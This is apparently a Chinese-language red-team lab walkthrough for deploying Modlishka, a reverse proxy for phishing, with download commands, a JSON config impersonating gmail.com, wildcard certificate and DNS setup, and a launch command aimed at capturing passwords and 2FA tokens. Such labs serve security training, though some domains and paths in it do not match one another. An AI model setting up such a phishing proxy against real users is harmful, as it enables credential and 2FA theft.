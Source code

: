 # modlishka钓鱼

# Modlishka

本实验展示了如何设置`Modlishka`可用于网络钓鱼活动的反向 HTTP 代理，以窃取用户密码和 2FA 令牌。Modlishka 使这成为可能，因为它位于您作为攻击者冒充的网站和受害者 (MITM) 之间，同时记录了所有通过它的流量/令牌/密码。

# 1、安装

## 1、安装certbot 

```
brew install certbot  #mac
apt-get install certbot #linux
```

## 2、安装Modlishka

```
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64
ls -lah 
```

![img](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LiFMettRbOEeU1PNch4%2F-LiFT9ga7bDsW9ghRRgY%2FAnnotation 2019-06-25 214300.png?alt=media&token=42a4c407-1ba5-45ef-90e1-b65f97379636)

![image-20220731104013359](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h4pwt62y73j20ua07cmyg.jpg)

# 2、Modlishka 配置

让我们为 modlishka 创建一个配置文件：

![img](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LiFMettRbOEeU1PNch4%2F-LiFTFMH3mWerGfyOEOV%2FAnnotation 2019-06-25 214425.png?alt=media&token=88207ce2-73be-4995-bf83-ccdebc499b0b)

```
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```

# 3、配置证书

重要 - 让我们为我希望我的网络钓鱼受害者登陆的域生成一个证书`*.tobyblog.cn`：

## 1、使用certbot生成证书

```
sudo certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d "*.tobyblog.cn" --email noreply@live.com
```

![image-20220731104407974](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h4pwx6qcpfj210s0p4q6v.jpg)

然后我们需要在我们的域名的DNS控制台配置,配置完需要等待10分钟左右才能生效.

可以在上面第二个红框地址查看配置是否生效

![image-20220731104711648](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h4px0daywhj20uh0u0q4j.jpg)

![image-20220731105901604](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h4pxcp471rj21iy0u0dhw.jpg)

创建 DNS TXT 记录后，按回车继续生成证书：

![image-20220731105958440](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h4pxdntz1sj21dc0im0wb.jpg)

生成证书后，我们需要将它们转换为适合嵌入 JSON 对象的格式：

```
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem 
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem 
```

![image-20220731110032804](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h4pxea1g8nj21oa0l2tmc.jpg)

在配置文件中添加证书和key

![image-20220731111110653](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h4pxpbxv9xj21ka0u0q82.jpg)

# 4、配置访问DNS 记录

让我们为根主机创建一条 A 记录`t`，它只指向 钓鱼服务器 的 IP：

![image-20220731111222346](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h4pxqrl5n8j216m03yglp.jpg)

这非常重要——我们需要`CNAME`记录任何`*`指向的主机/子域`t`

![img](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LiFMettRbOEeU1PNch4%2F-LiFTu8I9q-pAD0c5HDZ%2FAnnotation 2019-06-25 215702.png?alt=media&token=b739db5f-3dce-4ce1-836c-faf61f35100e)

# 5、启动 Modlishka

我们现在准备通过启动 modlishka 并为其提供 modlishka.json 配置文件来开始测试：

### 1

```
sudo ./Modlishka-linux-amd64 -config modlishka.json
```



下面显示了通过访问 t.tobylobg.cn，我如何获得 www.su-sanha.cn 的内容 Modlishka 和 MITM 有效。再次强调一下很重要 - 我们没有创建目标网站的任何副本或模板 - 受害者实际上正在浏览 gmail，只是它是通过 Modlishka 提供服务的，在此检查流量并捕获密码：

![img](https://tva1.sinaimg.cn/large/e6c9d24egy1h4pwlj0b3vg21ih0u00y2.gif)

# 参考